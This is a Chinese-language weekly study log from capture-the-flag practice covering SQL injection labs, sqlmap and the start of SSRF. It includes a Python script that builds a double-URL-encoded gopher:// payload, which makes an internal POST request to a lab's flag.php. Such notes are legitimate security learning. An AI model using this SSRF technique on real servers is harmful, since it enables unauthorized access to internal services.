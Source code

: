 # 10.27~10.23 WEEK3

## 概况

- sqli-labs1~8关
- sqlmap的使用
- js分析，sql注入类题型（get型，post型，报错注入，布尔盲注，布尔盲注）
- ssrf类型开了个头（gopher协议）
- sictfweb类题型

## 学到的新知

### 1.post请求

打开网站发现什么都没有，根据url的提示，输入：

？url=127.0.0.1

打开后发现什么都没有，所以在url后加上/flag.php

进入网站后发现有一个输入框，右键查看源码：



得到post key以后在网上找到了一个脚本，构造payload：

```python
import urllib.parse

payload =\

"""

POST /flag.php HTTP/1.1

Host: 127.0.0.1:80

Content-Type: application/x-www-form-urlencoded

Content-Length: 36

key=25e580d42e65f2b4c6a50abb09aa0a0d

"""

\#注意后面一定要有回车，回车结尾表示http请求结束

tmp = urllib.parse.quote(payload)

new = tmp.replace('%0A','%0D%0A')

result = '[gopher://127.0.0.1:80/'+'_'+new](gopher://127.0.0.1:80/'+'_'+new)

result = urllib.parse.quote(result)

print(result)    # 这里因为是GET请求所以要进行两次url编码
```
